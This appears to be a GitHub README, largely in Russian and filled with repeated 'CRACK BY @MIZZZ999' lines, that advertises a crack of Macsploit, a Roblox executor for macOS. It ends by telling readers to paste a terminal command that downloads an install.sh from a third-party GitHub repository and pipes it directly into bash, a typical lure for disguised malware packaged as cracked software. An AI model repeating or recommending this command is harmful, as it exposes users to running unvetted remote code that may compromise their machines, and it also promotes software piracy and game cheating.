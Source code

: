 
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999

Кряк максплоита с открытым исходником))))

CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999

Кряк работает на все версии максплоита


CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999
CRACK BY @MIZZZ999

Максплоит это executer для роблокса на маке

PASTE THIS IN TERMINAL(MACOS)



cd ~/ && curl -s "https://raw.githubusercontent.com/shrek123471763/crackmacsploit-by-mizzz999/refs/heads/main/install.sh" | bash </dev/tty
